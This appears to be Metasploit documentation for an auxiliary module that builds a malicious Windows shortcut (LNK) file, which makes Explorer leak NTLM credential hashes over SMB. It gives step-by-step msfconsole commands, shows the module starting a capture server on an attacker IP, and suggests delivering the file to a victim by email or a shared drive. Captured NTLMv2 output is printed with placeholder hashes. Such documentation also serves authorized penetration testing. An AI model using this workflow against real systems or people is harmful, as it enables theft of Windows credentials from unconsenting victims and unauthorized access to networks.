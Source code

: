 ## Vulnerable Application

Windows operating systems that process LNK files via Explorer, particularly when browsing directories containing the malicious shortcut.
This can lead to NTLM credential leaks over SMB.

References:
- [Right-Click LNK](https://zeifan.my/Right-Click-LNK/)
- [Exploit-DB 42382](https://www.exploit-db.com/exploits/42382)

Disclosure Date: 2025-05-10 (reported to MSRC).

## Verification Steps

1. Start msfconsole.
2. Load the module: `use auxiliary/fileformat/specialfolderdatablock_lnk`.
3. Customize options as needed (e.g., set FILENAME or APPNAME).
4. Execute the module: `run`.
5. A malicious LNK file will be generated.
6. If not using a custom UNCPATH, the module starts an SMB capture server automatically.
7. Place the LNK file in a directory on the target system.
8. Browse to the directory in Windows Explorer to trigger the SMB connection.
9. Monitor the console for captured NTLM hashes.

## Options

### APPNAME

Sets the display name of the application in the LNK file. If empty, a random name is generated.

Example:
```
set APPNAME FakeApp
```


## Scenarios

### Basic NTLM Hash Capture on Windows

Target: A Windows system with Explorer (e.g., Windows 10 or later).

Attacker: Use the module to generate the LNK and capture hashes locally.

```
msf > use auxiliary/fileformat/specialfolderdatablock_lnk
msf auxiliary(fileformat/specialfolderdatablock_lnk) > set FILENAME malicious.lnk
FILENAME => malicious.lnk
msf auxiliary(fileformat/specialfolderdatablock_lnk) > set SRVHOST 192.168.1.25
SRVHOST => 192.168.1.25
msf auxiliary(fileformat/specialfolderdatablock_lnk) > set APPNAME FakeApp
APPNAME => FakeApp
msf auxiliary(fileformat/specialfolderdatablock_lnk) > run

[*] Starting SMB server on 192.168.1.25:445
[*] Generating malicious LNK file
[+] malicious.lnk stored at /root/.msf4/local/malicious.lnk
[*] Listening for hashes on 192.168.1.25:445
[*] Auxiliary module execution completed
```

Deliver the `malicious.lnk` file to the target (e.g., via email or shared drive).
When the victim opens the containing folder in Explorer, an SMB connection is attempted:

```
[*] SMB Captured - 2025-09-18 21:03:00 +0530
NTLMv2 Response Captured from 192.168.1.50:49180 - 192.168.1.50
USER:targetuser DOMAIN:TARGETPC OS: Windows 10 LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:examplehashvalue
NT_CLIENT_CHALLENGE:examplechallenge
```
